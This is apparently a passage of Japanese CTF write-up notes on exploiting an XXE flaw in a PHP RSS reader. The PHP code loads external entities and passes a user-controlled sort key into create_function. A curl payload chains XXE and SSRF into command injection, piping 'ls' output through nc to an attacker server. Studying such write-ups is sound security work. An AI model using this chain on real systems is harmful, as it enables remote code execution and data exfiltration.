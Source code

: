 ```php
    $file = file_get_contents($url);
    $dom = new DOMDocument();
    $dom->loadXML($file,LIBXML_NOENT | LIBXML_DTDLOAD);
    $xml = simplexml_import_dom($dom);
    if($xml){
     //echo count($xml->channel->item);
     //var_dump($xml->channel->item->link);
     $data = [];
     for($i=0;$i<count($xml->channel->item);$i++){
       //echo $uri['scheme'].$uri['host'].$xml->channel->item[$i]->link."\n";
       $data[] = new Url($i,$uri['scheme'].'://'.$uri['host'].$xml->channel->item[$i]->link);
       //$data[$i] = $uri['scheme'].$uri['host'].$xml->channel->item[$i]->link;
     }
     //var_dump($data);
     usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
     echo '<div class="ui list">';
     foreach($data as $dt) {
       $html = '<div class="item">';
       $html .= ''.$dt->id.' - ';
       $html .= ' <a href="'.$dt->link.'">'.$dt->link.'</a>';
       $html .= '</div>';
     }
     $html .= "</div>";
     echo $html;
    }else{
     $html .= "Error, not found XML file!";
     $html .= "<code>";
     $html .= "<pre>";
     $html .= $file;
     $html .= "</pre>";
     $hmlt .= "</code>";
     echo $html;
    }
  }
}
```
- **Payload**   
以下のXMLファイルを攻撃者サーバーに用意しておく。これは`usort`関数が実行されるようにするため。   
```txt
<root>
<channel>
<item><link>aaa</link></item>
<item><link>bbb</link></item>
</channel>
</root>
```
以下でRCE！   
```txt
curl "http://68.183.31.62:94/custom" -d '<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://127.0.0.1/admin?rss=http://<myserver>/hoge.xml&order=hoge%7C%7Csystem%28%27ls%7Cnc%20<myserver>%2012345%27%29" >]><foo>&xxe;</foo>'
```
# メモ
`hackerone report xxe`とかでググるといろいろ出てくる。   
`xxe ctf`,`xxe vulnhub`,`xxe hackthebox`とか。   
応答が返ってくるかで、普通のXXEかOOB XXEかが判別できそう。   
